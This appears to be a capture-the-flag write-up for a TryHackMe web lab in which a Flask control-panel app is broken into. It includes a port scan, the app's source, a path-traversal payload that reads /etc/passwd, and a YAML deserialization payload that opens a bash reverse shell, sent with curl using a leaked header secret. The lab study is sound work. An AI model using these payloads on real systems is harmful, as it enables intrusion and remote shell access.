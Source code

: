 ```yaml
---
title: "Persistance"
description: "THM"
publishDate: "02 July 2025"
tags: ["tryhackme"]
---
```



# Persistence - web

## Description

After the notorious malware strike on the Virelia Water Control Facility, phantom alerts and erratic sensor readings plague a system that was supposed to be fully remediated.

As a Black Echo red-team specialist, you must penetrate the compromised portal, unravel its hidden persistence mechanism, and neutralise the backdoor before it can be reactivated.

----


## IP 10.10.174.195 8080

----

## Ports

```bas
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.12 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    nginx 1.24.0 (Ubuntu)
8080/tcp open  http    Werkzeug httpd 3.1.3 (Python 3.12.3)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Finds

### Files
----

#### Debug log

http://10.10.174.195:8080/logs/view?name=debug.log

```yaml
SIGNATURE': 'secr3tFTW192d2390', 'PLCS': [{'id': 'PLC-101', 'ip': '192.168.10.11'}, {'id': 'PLC-102', 'ip': '192.168.10.12'}], 'SENSORS': [{'name': 'FlowRate', 'unit': 'L/s'}, {'name': 'Pressure', 'unit': 'bar'}]}
2025-06-28T09:56:21 DEBUG: loader script at /opt/hmi/update.py
2025-06-28T09:56:21 DEBUG: webapp script at /opt/hmi/app.py

```

Source code
```python
#!/usr/bin/env python3
import subprocess
import os
import re
import time
import yaml
import random
import datetime
from flask import (
    Flask, request, render_template,
    send_from_directory, jsonify
)

app = Flask(__name__)
APP_ROOT = &#39;/opt/hmi&#39;

def init_debug():
    cfg = yaml.safe_load(open(os.path.join(APP_ROOT, &#39;config.yaml&#39;), &#39;r&#39;))
    dbg = os.path.join(APP_ROOT, &#39;logs&#39;, &#39;debug.log&#39;)
    ts = time.strftime(&#39;%Y-%m-%dT%H:%M:%S&#39;)
    with open(dbg, &#39;a&#39;) as d:
        d.write(f&#34;{ts} STARTUP CONFIG: {cfg}\n&#34;)
        d.write(f&#34;{ts} DEBUG: loader script at {APP_ROOT}/update.py\n&#34;)
        d.write(f&#34;{ts} DEBUG: webapp script at {APP_ROOT}/app.py\n&#34;)
    return cfg

app_config = init_debug()

def log(msg, dest=&#39;app&#39;):
    path = os.path.join(APP_ROOT, &#39;logs&#39;, f&#39;{dest}.log&#39;)
    ts = time.strftime(&#39;%Y-%m-%dT%H:%M:%S&#39;)
    with open(path, &#39;a&#39;) as f:
        f.write(f&#34;{ts} {msg}\n&#34;)

@app.route(&#39;/&#39;)
def index():
    return &#39;&#39;, 302, {&#39;Location&#39;: &#39;/dashboard&#39;}

@app.route(&#39;/dashboard&#39;)
def dashboard():
    ll = os.path.join(APP_ROOT, &#39;logs&#39;, &#39;loader.log&#39;)
    last = &#39;Never&#39;
    if os.path.exists(ll):
        lines = open(ll).read().splitlines()
        if lines:
            last = lines[-1]
    return render_template(&#39;dashboard.html&#39;, plcs=app_config[&#39;PLCS&#39;], last_seen=last)

@app.route(&#39;/telemetry&#39;)
def telemetry():
    return render_template(&#39;telemetry.html&#39;)

@app.route(&#39;/sensors&#39;)
def sensors():
    labels = [(datetime.datetime.now() - datetime.timedelta(minutes=60 - i*10)).strftime(&#39;%H:%M&#39;) for i in range(7)]
    flow = [round(random.uniform(12,17),2) for _ in labels]
    pressure = [round(random.uniform(1.2,1.5),2) for _ in labels]
    return jsonify({&#39;labels&#39;: labels, &#39;datasets&#39;: [
        {&#39;label&#39;:&#39;FlowRate&#39;,&#39;data&#39;:flow},
        {&#39;label&#39;:&#39;Pressure&#39;,&#39;data&#39;:pressure}
    ]})

@app.route(&#39;/static/&lt;path:fname&gt;&#39;)
def static_files(fname):
    return send_from_directory(os.path.join(APP_ROOT, &#39;static&#39;), fname)

@app.route(&#39;/config/update&#39;, methods=[&#39;GET&#39;,&#39;POST&#39;])
def config_update():
    if request.method == &#39;POST&#39;:
        sig = request.headers.get(&#39;X-FTW&#39;,&#39;&#39;)
        if sig != app_config[&#39;SIGNATURE&#39;]:
            return &#39;Forbidden&#39;, 403
        if request.content_type != &#39;application/x-yaml&#39;:
            return &#39;Unsupported Media Type&#39;, 415
        data = request.data
        with open(os.path.join(APP_ROOT, &#39;config.yaml&#39;), &#39;wb&#39;) as f:
            f.write(data)
        log(&#39;Configuration updated&#39;, &#39;app&#39;)
        subprocess.Popen([&#39;sudo&#39;, &#39;python3&#39;, os.path.join(APP_ROOT, &#39;update.py&#39;)])
        return &#39;Configuration applied&#39;, 200
    return render_template(&#39;update.html&#39;)

@app.route(&#39;/logs/view&#39;)
def view_logs():
    raw_qs = request.environ.get(&#39;QUERY_STRING&#39;, &#39;&#39;)
    print(raw_qs)
    if &#39;/&#39; in raw_qs:
        return &#39;No logs found&#39;, 400

    name = request.args.get(&#39;name&#39;, &#39;&#39;)

    path = os.path.join(APP_ROOT, &#39;logs&#39;, name)

    if not os.path.exists(path):
        return &#39;Log not found&#39;, 404

    with open(path, &#39;r&#39;, errors=&#39;ignore&#39;) as f:
        lines = f.read().splitlines()
    return render_template(&#39;logs.html&#39;, name=name, lines=lines)
if __name__==&#39;__main__&#39;:
    app.run(host=&#39;0.0.0.0&#39;, port=8080)
```
### Logins
----

### Exploits
----

Found LFI on path : http://<IP_HERE>:8080/logs/view?name=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd

Source code for app : http://<IP_HERE>:8080/logs/view?name=%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2Fopt%2Fhmi%2Fapp%2Epy

Payload.yaml
```yaml
# payload.yaml
!!python/object/apply:os.system ["bash -c 'bash -i >& /dev/tcp/<IP_HERE>/<PORT_HERE> 0>&1'"]
```

Post request to spawn shell
```bash
curl -X POST \
  -H "X-FTW: secr3tFTW192d2390" \
  -H "Content-Type: application/x-yaml" \
  --data-binary @payload.yaml \
  http://<IP_HERE>:8080/config/update
```

### Priv escalation
----

## Random